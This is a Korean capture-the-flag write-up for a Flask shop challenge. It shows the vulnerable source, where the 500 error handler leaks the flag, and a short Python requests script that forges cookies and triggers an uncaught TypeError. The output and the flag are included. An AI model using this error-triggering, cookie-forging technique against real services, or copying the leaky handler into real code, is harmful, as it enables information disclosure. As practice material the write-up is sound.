

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

해당 url로 접속하면 flask를 사용한 python 소스코드를 확인할 수 있다.

```py
from flask import Flask, render_template, request, make_response
import os

flag = open("flag.txt", "r").read()
app = Flask('app')

items = {"bagel": 50, "toasted_bagel": 70, "bread": 30, "toast": 50, "wheat": 20, "water": 10}

@app.route('/')
def index():
  resp = make_response(render_template('index.html'))
  resp.set_cookie('item', 'gone', max_age=0)
  resp.set_cookie('money', 'gone', max_age=0)
  return resp

@app.route('/shop')
def shop():
  buy = request.args.get("buy")
  money = request.args.get("money")
  if(buy == None and money == None):
    return render_template("shop.html")
  else:
    try:
      item_price = items[buy]
      try:
        if(item_price > int(money)):
          resp = make_response("You don't have enough money to buy this item!")
          if(buy):
            resp.set_cookie('item', buy, max_age = 10)
          if(money):
            resp.set_cookie('money', money, max_age= 10)
          return resp
        else:
          resp = make_response(f"Congratulations! You are now the owner of {buy}. You have {int(money) - item_price} fake coins left, which means absolutely nothing!")
          if(buy):
            resp.set_cookie('item', buy)
          if(money):
            resp.set_cookie('money', money)
          return resp
      except ValueError:
        return "Please enter a valid money amount!"
    except KeyError:
      return "Not a valid item! Please enter a valid item."

@app.errorhandler(404)
def not_found(e):
  return render_template('404.html', message="Page not found"), 404

@app.errorhandler(500)
def error(e):
  if(request.cookies.get('item') == request.cookies.get('money') and request.cookies.get('add') == "1"):
    return render_template('500.html', message="Internal Server Error", flag=flag), 500
  else:
    return render_template('500.html', message="Internal Server Error.", flag=os.getenv("FLAG")), 500
  
app.run(host='0.0.0.0', port=8080)
```

flag를 획득하려면 @app.errorhandler(500)에 들어가야 한다. 즉, 500에러를 발생시켜야하고, 동시에 'item'과 'money'은 같아야 하고, 'add'에 "1"이 쿠키로 저장되어야 한다. (위에서 flag.txt를 읽었는데 환경변수로 읽는 "FLAG"는 가짜로 추정)

먼저 데이터 전송 method는 GET으로 해야한다는 것을 다음 코드로 알 수 있다.

```py
buy = request.args.get("buy")
money = request.args.get("money")
```

buy의 값과 money의 값 중 적어도 1개는 None이 되면 안되는 것을 다음 코드로 알 수 있다. (key point)

```py
if(buy == None and money == None):
    return render_template("shop.html")
```

buy의 값은 정상적인 값이여야 한다는 것을 다음 코드로 알 수 있다.

```py
item_price = items[buy]
...
except KeyError:
      return "Not a valid item! Please enter a valid item."
3개의 정보를 조합하면 money 값을 넣지 않으면(=None) ValueError가 아닌 TypeError exception이 다음 코드에서 터진다.

if(item_price > int(money)):
...
except ValueError:
      return "Please enter a valid money amount!"
```

다음과 같은 python 코드로 flag를 획득할 수 있다.

```py
import requests

_params = {
    'buy' : 'water'
}
_cookies = {
    'item' : '1',
    'money' : '1',
    'add' : '1'
}

url = 'https://imaginary-shop.max49.repl.co/shop'
response = requests.get(url, params=_params, cookies=_cookies)
print(response.text)

[Output]
<html>
  <head>
    <link rel="icon" href="https://i.imgur.com/wQxv5zm.png" type="image/gif" sizes="16x16">
    <title>500 | Internal Server Error</title>
  </head>
  <body>
    <script>
      window.onload = function() {
          document.getElementById("flag").style.visibility = "hidden";
    <h1 id="message">Internal Server Error</h1>
    <p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
    <div style="position: fixed; bottom: 0; right: 0; border: 0; padding: 20px;">
      <p id="flag" style="display: block;">btw the flag is ictf{1nt3nt10nal_f1ask_pyth0n_3rr0rs?}</p>
    </div>
  </body>
</html>
```


# **FLAG**

**ictf{1nt3nt10nal_f1ask_pyth0n_3rr0rs?}**